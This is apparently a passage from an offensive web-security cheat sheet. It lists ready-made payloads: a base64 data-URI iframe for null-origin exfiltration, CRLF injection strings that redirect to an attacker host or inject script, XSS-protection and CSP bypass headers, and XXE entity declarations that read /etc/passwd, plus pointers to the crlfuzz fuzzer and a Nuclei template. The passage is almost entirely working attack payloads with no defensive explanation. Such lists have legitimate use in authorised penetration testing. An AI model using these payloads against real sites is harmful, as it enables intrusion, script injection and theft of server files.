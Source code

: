 ```
```  

### Null Origin Exploitation Exfiltrate via url per server + base64
-> nulloriginb64.html
```
<iframe src="data:text/html;base64,<YOUR_BASE64_HERE>"></iframe>
</head></html>
```

## CRLF Injection (CRLFI)
Carriage Return (\r), Line Feed (\n)  
e.g.  
-> Redirect via GET  
```
/%0d%0aLocation:attacker
```  
-> XSS via GET  
```
/%0d%0a%0d%0a<svg onload="alert(1)">
```

### XSS-Protection Bypass via CRLF
```
/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

### CSP Bypass via CRLF
```
%0d%0aX-Content-Security-Policy: allow *%0d%0a%0d%0a
%0d%0aX-Content-Security-Policy: allow *
```

### Tools
```
crlfuzz -u "http://example.com"
```
https://github.com/dwisiswant0/crlfuzz

### Template - Nuclei
https://raw.githubusercontent.com/pikpikcu/nuclei-templates/master/vulnerabilities/crlf-injection.yaml

## XML External Entity (XXE)
### Methods
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
```

